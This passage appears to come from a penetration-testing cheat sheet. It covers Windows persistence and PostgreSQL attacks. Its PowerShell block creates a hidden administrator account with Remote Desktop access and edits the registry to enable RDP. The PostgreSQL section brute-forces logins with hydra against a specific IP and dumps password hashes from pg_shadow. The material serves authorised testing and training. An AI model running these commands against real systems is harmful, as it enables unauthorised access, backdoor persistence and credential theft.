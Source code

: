 
**Add RDP User**: (good for persistence)

```powershell
net user pwned password123! /add
net localgroup Administrators pwned /add
net localgroup "Remote Desktop Users" pwned /add
# enable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# delete user
net user derp /del
# disable remote desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```


## PostgreSQL - 5432


**NOTE**: `psql` supports tab completion for table names, db names.

```postgresql
--bruteforce
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 192.168.206.56 postgres

-- connect or psql
psql -U postgres -p 5432 -h 192.168.

-- List databases
SELECT datname FROM pg_database;
\l
\list

-- List schemas
SELECT schema_name,schema_owner FROM information_schema.schemata;
\dn+

\c <database> -- use (connect to) the database
\d -- List tables
\d+ <tablename> -- describe table
-- SQL standard way to describe table:
select column_name, data_type from information_schema.columns where table_name = <tablename>

-- Get current user
Select user;
\du+ -- Get users roles

--Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

-- Get languages
SELECT lanname,lanacl FROM pg_language;

-- Show installed extensions
SHOW rds.extensions;

-- Get history of commands executed
\s

-- Check if current user is superuser 
-- (superuser always has file read/write/execute permissions)
-- 'on' if true, 'off' if false
SELECT current_setting('is_superuser');
```